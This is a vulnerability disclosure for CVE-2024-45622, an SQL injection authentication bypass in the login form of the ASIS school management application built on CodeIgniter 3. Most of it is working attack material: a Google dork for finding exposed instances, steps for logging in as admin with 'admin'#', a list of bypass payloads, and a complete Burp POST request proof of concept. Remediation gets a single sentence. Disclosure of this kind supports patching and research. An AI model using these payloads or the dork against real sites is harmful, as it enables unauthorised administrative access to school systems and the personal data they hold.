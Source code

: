 # ASIS | Aplikasi Sistem Sekolah using CodeIgniter 3 - SQL Injection Authentication Bypass

### CVE Assigned:
**[CVE-2024-45622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-45622)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-45622) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-45622)

### Date:

> 5 July 2024

### Author:

> checkgue

### Author Email:

> checkgue.meta4sec@gmail.com

### Google Dork:

> "ASIS | Aplikasi Sistem Sekolah"

### Vendor Homepage:

> https://www.facebook.com/groups/181558652941070/

### Software Link:

> [ASIS - Aplikasi Sistem Sekolah dengan Framework Codeigniter](https://members.phpmu.com/forum/read/asis--aplikasi-sistem-sekolah-dengan-framework-codeigniter) (Deprecated)

### Version:

> v 3.0.0 < 3.2.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> index.php

> `username` parameter within the login mechanism is vulnerable to SQL Injection.


### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Steps to reproduce:

* Step 1 - Visit http://localhost/asispanel/
* Step 2 - Enter username as `admin'#` and use any password you want.
* Step 3 - Click `LOGIN` and now you will be logged in as admin.

### Payloads Can be use:

```
admin'#
admin'-- 
'||1#
'||1-- 
'=' 'or'
' OR '1'='1
' or 0=0 ##
```

## Proof of Concept [Burp Request]:

```
POST /asispanel/login/cek HTTP/1.1
Host: localhost
Cookie: ci_session=0221b92b7d2d402932dfc442b533d7af6d041c18
Content-Length: 57
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/asispanel/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en;q=0.9,id-ID;q=0.8,id;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: keep-alive

username=%27+or+0%3D0+%23%23&password=xyz&submit=&submit=
```

## Recommendations

When using this ASIS, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.

## References

+ https://aegislens.com/home/cve-2024-45622/
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-45622
* https://www.cve.org/CVERecord?id=CVE-2024-45622
* https://nvd.nist.gov/vuln/detail/CVE-2024-45622
* https://github.com/atoz-chevara/cve/blob/main/2024/ASIS_AplikasiSistemSekolah_Using_CodeIgniter3-SQL_Injection_Authentication_Bypass.md
* https://github.com/advisories/GHSA-8hxv-6g4p-2w59
* https://packetstormsecurity.com/files/181355/ASIS-3.2.0-SQL-Injection.html

```
Greetings to : ==========================
|| Meta4sec * Bungker * Jasakom * ECHO ||
=========================================
```
